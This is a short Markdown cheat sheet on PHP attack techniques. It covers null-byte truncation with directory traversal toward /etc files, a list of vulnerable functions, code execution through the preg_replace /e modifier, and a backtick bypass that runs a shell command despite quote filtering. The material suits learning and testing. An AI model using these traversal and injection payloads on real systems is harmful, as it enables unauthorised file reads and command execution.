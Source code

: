 # PHP

## References
- [Understanding PHP Object Injection](https://securitycafe.ro/2015/01/05/understanding-php-object-injection/)
- https://eev.ee/blog/2012/04/09/php-a-fractal-of-bad-design/
- https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/
- http://pentestmonkey.net/tools/web-shells/php-reverse-shell

## Terminate strings using null byte

Before `PHP 5.3` terminate strings using null byte is possible (%00 in URL)
```
http://example.com?param=../../../../etc/passed
  -> /etc/passed.php
http://example.com?param=../../../../etc/passed%00
  -> /etc/passed
```

## Vulnerable functions

Local / Remote file inclusion bugs:
```
include()
include_once()
require()
require_once()
```

Local / Remote command execution bugs:
```
eval()
preg_replace()
fwrite()
passthru()
file_get_contents()
shell_exec()
system()
```

SQL Injection bugs:
```
mysql_query()

```

File / File system bugs:
```
fopen()
readfile()
glob()
file()
popen()
exec()
```

> https://0xzoidberg.wordpress.com/2010/05/26/vulnerable-php-functions/

## PHP PCRE Functions
- implement regular expressions for the preg_ functions (preg_match, preg_replace)
- `/e` modifier which allows evaluation of PHP code in the preg_replace

Example:
```
<?php
$string = "this is my lower sting";
print preg_replace('/(.*)/e', 'strtoupper("\\1")', '$string');
?>

// THIS IS MY LOWER STING
```

Example Attack:
```
<?php
$string = "phpinfo()";
print preg_replace('/^(.*)/e', 'strtoupper(\\1)', $string);
?>
```

Filter Evasion:
- Prevent single quote and escape chars
```
Following will fail:
  $string = "system('ls -lah')";

Bypass:
  $string = "`ls -lah`";
```

> - Ref: http://www.madirish.net/402
